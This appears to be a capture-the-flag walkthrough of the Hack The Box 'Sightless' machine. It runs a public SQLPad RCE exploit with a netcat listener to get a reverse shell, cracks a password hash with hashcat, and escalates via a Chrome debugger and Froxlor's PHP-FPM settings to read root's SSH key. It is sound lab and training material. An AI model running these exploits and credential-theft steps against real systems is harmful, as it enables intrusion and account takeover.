




**Port Scanning**

```shell
# Nmap 7.94SVN scan initiated Sat Oct 19 07:30:38 2024 as: nmap -sC -sV -A -T4 -o port_scan 10.10.11.32
Nmap scan report for 10.10.11.32
Host is up (0.055s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
|_  256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://sightless.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.94SVN%I=7%D=10/19%Time=6713986B%P=x86_64-pc-linux-gnu%r(
SF:GenericLines,A0,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20FTP\x2
SF:0Server\)\x20\[::ffff:10\.10\.11\.32\]\r\n500\x20Invalid\x20command:\x2
SF:0try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x20try\
SF:x20being\x20more\x20creative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 19 07:31:50 2024 -- 1 IP address (1 host up) scanned in 72.13 seconds

```

On port 80 you can find:


Go trough SQLPad pushing on start now and you'll be redirected to SQLPAD console and you can fetch SQLPad version:


**Version 6.10.0 identified, let's try find out something about:


URL: https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944/tree/main

Let's clone the repository and try to run the exploit, while listening on a wished port from another terminal:

```shell
┌──(kali㉿kali)-[~/HTB/Sightless/sqlpad-rce-exploit-CVE-2022-0944]
└─$ python3 exploit.py http://sqlpad.sightless.htb 10.10.14.113 9091
---------------------------------------------------------------------
┌──(kali㉿kali)-[~/HTB/Sightless]
└─$ nc -lnvp 9091
listening on [any] 9091 ...
```

And got the shell:


There's a file sqlpad.sqlite:


In this file are present some interesting parts:

```shell
admin@sightless.htbadmin$2a$10$cjbITibC.********.
����1john@sightless.htb3        admin@sightless.htb
```

Meanwhile try to run a linpeas on sqlpad machine:




There's an hash for user **micheal** in passwd file:

```shell
michael:$6$mG3Cp2VPGY.********:19860:0:99999:7::
```

Try to crack it with hashcat:

```shell
┌──(kali㉿kali)-[~/HTB/Sightless]
└─$ # Example command for Hashcat
hashcat -m 1800 -a 0 -o cracked_micheal_hash.txt micheal_user_hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting
......
Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

Cracking performance lower than expected?                 

* Append -O to the commandline.
  This lowers the maximum supported password/salt length (usually down to 32).

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
Hash.Target......: $6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa....L2IJD/
Time.Started.....: Sat Oct 19 08:58:04 2024 (43 secs)
Time.Estimated...: Sat Oct 19 08:58:47 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     1344 H/s (8.77ms) @ Accel:64 Loops:1024 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 58496/14344384 (0.41%)
Rejected.........: 0/58496 (0.00%)
Restore.Point....: 58432/14344384 (0.41%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4096-5000
Candidate.Engine.: Device Generator
Candidates.#1....: jhoselin -> iloverhys
Hardware.Mon.#1..: Util: 89%

Started: Sat Oct 19 08:58:02 2024
Stopped: Sat Oct 19 08:58:49 2024

┌──(kali㉿kali)-[~/HTB/Sightless]
└─$ cat cracked_micheal_hash.txt 
$6$mG3Cp2VPGY.********:********


```

Try ssh into **michael**:



```shell
userflag:9dc449a3********
```

By analyzing services running on port:


During ports forwarding trough SSH i found that there's froxlor running on 8080, but isn't reachable due the missing of it's domain name. Inspecting other ports i found that port 40975 is the port of an available chrome debugger:


```shell
admin:F********
```




After saving the PHPFM configuration disable and enable this by settings panel after querying 
`http://127.0.0.1:8080/admin_settings.php?start=phpfpm`

Now redo this procedure with the chmod command on id_rsa file just copied:

```shell
chmod 644 /tmp/id_rsa
```


After a bit the command will be executed and you will be able to use id_rsa to login into root's ssh:


```shell
rootflag: 7a2a1b4afb4********
```
